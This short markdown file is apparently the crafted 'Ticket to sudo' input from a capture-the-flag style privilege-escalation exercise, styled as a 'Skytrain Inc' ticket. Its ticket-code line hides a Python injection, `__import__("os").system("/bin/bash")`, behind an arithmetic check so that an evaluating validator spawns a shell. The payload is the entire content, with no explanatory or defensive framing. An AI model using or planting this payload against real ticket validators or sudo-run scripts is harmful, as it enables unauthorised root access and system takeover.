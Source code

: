 # Skytrain Inc
## Ticket to sudo
__Ticket Code:__
** 123 + 10 == 133 and __import__("os").system("/bin/bash")